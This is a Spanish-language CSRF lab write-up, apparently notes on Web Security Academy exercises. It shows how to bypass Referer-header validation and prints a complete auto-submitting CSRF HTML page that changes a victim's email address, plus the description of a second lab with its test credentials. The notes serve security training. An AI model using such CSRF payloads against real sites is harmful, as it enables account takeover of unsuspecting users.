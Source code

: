 Mandamos a repeater el change mail. Enviamos y nos sale 302. Cambiamos la url rerferer y nos da fallo, lo eliminamos y vuelve el 302. Es vulnerable.

Añadimos en el header
```html
<meta name="referrer" content="never">
```
Vamos al exploit y añadimos el head y nuestro referer
```html
  <html>
<head>
  <meta name="referrer" content="never">
</head>

  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aff00270482d7a2c0c28cb9002b00b4.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![](assets/2022-07-14-20-10-43.png)

## Lab: CSRF with broken Referer validation

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Nos logueamos y capturamos el change mail

añadimos una url al referer para ver si funciona
